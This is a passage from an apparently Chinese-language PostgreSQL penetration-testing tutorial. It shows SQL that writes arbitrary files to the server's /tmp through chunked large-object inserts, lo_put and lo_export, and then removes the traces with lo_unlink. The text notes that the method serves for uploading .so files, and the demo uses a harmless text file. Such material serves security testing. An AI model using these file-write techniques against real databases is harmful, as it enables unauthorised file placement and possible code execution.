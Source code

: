 ![](../../img/postgresql-pentest/32.png)

![](../../img/postgresql-pentest/33.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象, 然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下, 收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了,就随便写个 txt 举个例子

```sql
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));
SELECT lo_export(12345, '/tmp/ffffffff0x.txt');
SELECT lo_unlink(12345);
```

![](../../img/postgresql-pentest/11.png)

![](../../img/postgresql-pentest/12.png)

或者还可以用 lo_put 在后面拼接进行写入

```sql
select lo_create(11116);
select lo_put(11116,0,'dGVzdDEyM');
select lo_put(11116,9,'zQ1Ng==');

select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));
select lo_export(11141,'/tmp/test.txt');
SELECT lo_unlink(11141);
```

![](../../img/postgresql-pentest/45.png)

![](../../img/postgresql-pentest/46.png)

![](../../img/postgresql-pentest/47.png)

结束记得清理 OID 内容
```sql
-- 查看创建的 lo_creat ID
select * from pg_largeobject

-- 使用 lo_unlink 进行删除
SELECT lo_unlink(12345);
```

---

# PostgreSQL 创建文件夹
